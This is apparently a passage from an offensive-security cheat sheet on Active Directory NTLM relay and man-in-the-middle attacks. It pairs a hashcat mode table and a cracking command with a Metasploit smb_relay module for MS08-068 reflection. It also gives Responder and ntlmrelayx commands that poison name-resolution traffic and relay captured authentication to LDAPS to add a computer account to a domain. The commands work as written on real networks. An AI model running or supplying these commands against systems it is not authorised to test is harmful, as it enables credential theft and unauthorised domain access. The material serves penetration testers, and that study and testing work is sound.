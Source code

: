 # Internal - MITM and Relay

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                  | Hashcat | Attack method        |
|-----------------------|---------|----------------------|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

## MS08-068 NTLM reflection

NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.

> This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```


## LDAP signing not required and LDAP channel binding disabled

During security assessment, sometimes we don't have any account to perform the audit. Therefore we can inject ourselves into the Active Directory by performing NTLM relaying attack. For this technique three requirements are needed:

* LDAP signing not required (by default set to `Not required`)
* LDAP channel binding is disabled. (by default disabled)
* `ms-DS-MachineAccountQuota` needs to be at least at 1 for the account relayed (10 by default)

Then we can use a tool to poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network such as `Responder` and use `ntlmrelayx` to add our computer.

```bash
# On first terminal
sudo ./Responder.py -I eth0 -wfrd -P -v

# On second terminal
sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer
```
It is required here to relay to LDAP over TLS because creating accounts is not allowed over an unencrypted connection.
